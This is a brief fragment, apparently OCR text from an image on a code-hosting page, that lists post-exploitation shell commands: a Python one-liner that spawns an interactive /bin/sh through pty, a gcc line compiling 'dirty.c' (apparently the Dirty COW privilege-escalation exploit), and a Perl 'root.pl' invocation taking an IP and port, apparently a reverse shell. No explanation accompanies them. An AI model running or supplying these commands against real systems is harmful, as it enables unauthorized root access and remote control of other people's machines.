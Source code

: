 python -c 'import pty; pty.spawn("/bin/sh")'
gcc -pthread dirty.c -o dirty -lcrypt
--------------------------------------------------------------------
perl root.pl [ip] [port]
